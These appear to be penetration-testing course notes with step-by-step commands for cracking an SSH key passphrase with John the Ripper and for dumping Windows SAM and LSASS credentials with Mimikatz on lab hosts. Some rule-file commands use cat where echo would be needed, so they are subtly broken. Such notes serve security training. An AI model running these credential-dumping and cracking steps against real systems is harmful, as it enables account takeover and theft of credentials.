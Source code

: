 Steps:
1. Chmod id_rsa key
2. Convert id_rsa key to crackable format
	1. Remove unecessary string at file start
	2. Identify hash algorithim 
4. Modify rule file for john (example is Captialized, append 137, append ! OR @ OR #)
5. Add rule file to john config
6. Crack with John
7. Login

```
1. chmod 600 id_rsa

2. ssh2john id_rsa > ssh.hash 

2.1 hashcat -h | grep -i "ssh"

3. cat "[List.Rules:sshRules]" > ssh.rule

4. cat "c $1 $3 $7 $!" >> ssh.rule; cat "c $1 $3 $7 $@" >> ssh.rule; cat "c $1 $3 $7 $#" >> ssh.rule

5. john --wordlist=ssh.passwords --rules=sshRules ssh.hash

6. ssh -i id_rsa -p 2222 dave@192.168.50.201

```


## 8.3 Working with Password Hashes 


##### Cracking NTLM
- NTLM hashes not salted
- SAM databse stored in `C:\Windows\system32\config\sam`
	- Windows kernel keeps exclusive lock on the file -> cannot move or modify
- Cracking LSASS requires Administrator and SeDebugPrivilege since LSASS runs as SYSTEM
- Mimikatz can elevate if SeImpersonatePrivilege is enabled 

Steps:
1. Access target via RDP
2. Check local users
3. Run Mimikatz
4. Check Privileges
5. Elevate
6. Dump Credentials
7. Identify correct Hashcat mode
8. Add base64 rule file and crack

```
1.  xfreerdp /v:192.168.122.203 /u:offsec /p:lab /w:1200 /h:700

2. PS> Get-LocalUser

3. PS>.\mimikatz.exe

4. privilege::debug    

5. token::elevate

6. lsadump::sam

6.1 sekurlsa::logonpasswords

7. hashcat --help | grep -i "ntlm"

```